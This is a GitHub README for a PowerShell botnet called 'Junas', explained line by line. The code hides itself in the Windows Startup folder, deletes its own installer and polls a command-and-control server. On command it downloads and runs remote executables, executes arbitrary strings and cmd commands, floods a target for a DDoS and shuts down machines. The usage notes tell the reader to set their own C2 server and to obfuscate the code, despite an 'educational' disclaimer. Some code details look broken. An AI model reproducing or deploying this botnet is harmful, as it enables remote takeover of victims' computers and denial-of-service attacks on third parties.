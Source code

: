 ## Junas botnet
### Legal
This is an educational script and should not be used for illegal/unethical actions against machines you do not own/have permission to infect
<br> 
<br> *Copyright (c) 2021 Pokesi All Rights Reserved.*
### How it works **step by step**
Syntax used:
<br> `Line of code/variable` - Explanation
<br> ... `Line of code` - Explanation [not required]
<br> ...... `Line of code` - Explanation [only used for branches]
<br> ... `}` - Ends the branch
<br> 
<br> `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br> `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br> `$botnetCode` - `$botnetCode` is set to the botnet code. Keep in mind that the `.ps1` file is just an installer for the botnet, the actual thing is in this variable. The following is `$botnetCode`.
<br> ... `Add-Type -AssemblyName System.IO.Compression.FileSystem;` - Adds the type used to extract `.zip` files. Used when extracting downloaded files.
<br> ... `$wc = [System.Net.WebClient]::new();` - Starts a WebClient instance in variable `$wc`. Used for downloading files. An alternative may be curl.exe, but is not tested.
<br> ... `$commandcontrolserver = "https://yoursite.com/server.txt";` - Sets `$commandcontrolserver` to https://yoursite.com/server.txt, which is the file that has the command for the botnet.
<br> ... `$wc.DownloadFile("$commandcontrolserver","command.txt");` - Downloads the command and control file to command.txt. Alternative with curl.exe may be `curl.exe --output=command.txt -X GET https://yoursite.com/server.txt`, not tested.
<br> ... `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br> ... `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br> ... `$cmd = (Get-Content -Path "./command.txt" -TotalCount 1)` - Sets the `$cmd` variable to the first line of `command.txt`.
<br> ... `if ($cmd == "Stop") {` - Checks if `$cmd` is "Stop". This stops the botnet.
<br> ...... `exit()` - Exits PowerShell
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "Dl&Run *") {` - Checks if `$cmd` starts with "Dl&Run". This downloads a .zip file, extracts it, and runs the .exe specified. In server.txt, this should look like `Dl&Run https://fileupload.com/application.zip:application.exe`. The provided example will download `application.zip`, extract it, and run application.exe inside the extracted folder.
<br> ...... `$cmd2 = $cmd.split("Dl&Run ")[0];` - Sets `$cmd2` to the command passed to the script, but stripped of "Dl&Run"
<br> ...... `$fileToDownload = $cmd2.Split(":")[0];` - Sets `$fileToDownload` to the file the operator wants to download.
<br> ...... `try {` - PowerShell try
<br> ......... `$wc.DownloadFile("$fileToDownload","botnet.zip");` - Downloads `$fileToDownload` to `botnet.zip`
<br> ......... `cmd.exe /c "mkdir folder";` - Runs cmd.exe [command prompt] with the `/c` switch, which executes a command. In this case, `mkdir folder` is run, which makes a folder called "folder"
<br> ......... `Expand-Archive -LiteralPath "./botnet.zip" -DestinationPath "./folder"` - Extracts the downloaded file to `/folder`.
<br> ......... `Start-Process -filepath "./folder/" + ($cmd2.Split(":")[2]) + ".exe";` - Runs the file.
<br> ...... `}` - Ends the branch
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "IEX *") {` - Checks if `$cmd` starts with "IEX". If it does, it will execute the given string.
<br> ...... `$cmd3 = $cmd.split("IEX ")[0];` - Sets `$cmd3` to the command passed to the script, but stripped of IEΧ.
<br> ...... `IEX($cmd3);` - Runs the string with IEX.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "DDoS *") {` - Checks if `$cmd` starts with "DDoS". If it does, it will make a batch file in Startup that runs constant requests of that site.
<br> ...... `$cmd4 = $cmd.split("DDoS ")[0];` - Sets `$cmd4` to the command passed to the script, but stripped of DDoS
<br> ...... `":start ; curl -X GET $ddos; goto start" | Out-File "$startUpFolder\btnet.bat" -Force` - Makes a batch file in Startup that runs constant requests of that site.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "Cmd *") {` - Checks if `$cmd` starts with "Cmd". If it does, it will execute `cmd.exe` with the switch `/c` to execute a command.
<br> ...... `$cmd5 = $cmd.split("Cmd ")[0];` - Sets `$cmd5` to the command passed to the script, but stripped of Cmd.
<br> ...... `cmd /c "$cmd5";` - Executes `cmd.exe` with the switch `/c` to execute a command.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd == "Shutdown") {` - Checks if `$cmd` is Shutdown. If it does, it will shutdown the machine.
<br> ...... `Stop-Computer;` - Shutdown machine
<br> ... `}` - Ends the branch
<br> ... `else {` - If nothing else works, do this.
<br> ...... `exit;` - Stops the script
<br> ... `}` - Ends the branch
<br> ... `Remove-Item -Path "./command.txt";` - Removes command.txt
<br> `"powershell -WindowStyle hidden -Command '$botnetCode'" | Out-File "$startUpFolder\default.bat";` - Writes `$botnetCode` to a Startup file.
<br> `Remove-Item -Path $MyInvocation.MyCommand.Source;` - Self-Destructs.
### Usage
Change https://yoursite.com/server.txt to your command and control server.
<br> You may want to obfuscate this or add custom commands.
### Donate
 - BTC: `bc1qp9y98996l9dkdqcnge449x40dfh7stneklq2js`
 - XMR: `87Jr3LTEH4D7ubaxJNsrKTQPzfitSPH4cgp254Yb3cyGHLdrP6fpaNjCjdph2cn8Sh9qjgxe9UMjoCrTDbnbqJUtJXK9bb4`
 - TRX: `TYgkFXn3Yb3egs8cw7GwZubaAR2cuXR4y8`
 - ETH/BNB: `0x3e522051A9B1958Aa1e828AC24Afba4a551DF37d`

